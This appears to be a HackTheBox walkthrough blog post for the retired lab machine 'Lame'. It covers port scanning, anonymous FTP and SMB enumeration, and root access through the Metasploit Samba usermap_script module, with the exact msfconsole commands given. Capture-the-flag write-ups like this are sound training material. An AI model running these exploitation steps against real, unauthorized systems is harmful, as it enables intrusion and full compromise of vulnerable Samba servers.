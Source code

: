 ```yaml
---
Platform:
  - HackTheBox
Difficulty: Easy
tags:
  - RCE
Status: Rooted/Finished
Blog Posting: Not Posted
Type: Machine
---
```

Hello everyone, In this blog we are going to solve Lame from HackTheBox.

Link for the machine : [https://app.hackthebox.com/machines/1](https://app.hackthebox.com/machines/1)

  

Lets Start 🙌

  

Connect to the HTB server by using the OpenVpn configuration file that’s generated by HTB.

[ [Click Here](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to learn more about how to connect to vpn and access the boxes. ]

After connecting to the vpn service, click on Join Machine to access the machine’s ip.

After joining the machine you can see the IP Address of the target machine.

  

First start the reconnaissance by running `rustscan` on the target IP address.

Command: `rustscan -a 10.10.10.3 -- -A -Pn`

![[Lame/assets/Untitled.png|Untitled.png]]

![[Lame/assets/Untitled 1.png|Untitled 1.png]]

From the results, we got the following ports and services running:

|   |   |   |
|---|---|---|
|Port|Service|Version|
|21|FTP|vsftpd 2.3.4|
|22|SSH|OpenSSH 4.7p1|
|139|netbios-ssn|Samba smbd 3.X - 4.X|
|445|netbios-ssn|Samba smbd 3.X - 4.X|
|3632|distccd|distccd v1|

First, I started enumerating the FTP service running on Port `21`.

From the scan results, we can see that the Anonymous login is allowed for FTP

![[Lame/assets/Untitled 2.png|Untitled 2.png]]

So I tried to login as `Anonymous`

Command: `ftp 10.10.10.3`

username: `Anonymous`

Password: `Anonymous`

![[Lame/assets/Untitled 3.png|Untitled 3.png]]

![[Lame/assets/Untitled 4.png|Untitled 4.png]]

Found nothing in the FTP anonymous Login.

Next I started to enumerate SMB service running on port 139. I used `enum4linux` tool to enumerate.

Command: `enum4linux -a 10.10.10.3`

![[Lame/assets/Untitled 5.png|Untitled 5.png]]

From the response of `enum4linux`, I didn’t found any interesting shares.

  

Next, I searched for exploits for the samba version: `Samba smbd 3.X - 4.X` and found the this version is vulnerable to command execution.

[https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

To use the above exploit, execute the commands in `msfconsole` as follows:

`use exploit/multi/samba/usermap_script`

`set RHOSTS 10.10.10.3`

`set LHOST tun0` ( Here tun0 is your hackthebox vpn tunnel IP )

`run`

![[Lame/assets/Untitled 6.png|Untitled 6.png]]

Now we have got access to the target machine as `root`. I searched for the user flag using the following command:

command: `find / -name user.txt`

![[Lame/assets/Untitled 7.png|Untitled 7.png]]

And we have found the user flag.

Now I searched for the root flag using the same method and found the root flag:

![[Lame/assets/Untitled 8.png|Untitled 8.png]]

  

We have successfully found all the flags.

  

Thank You !!!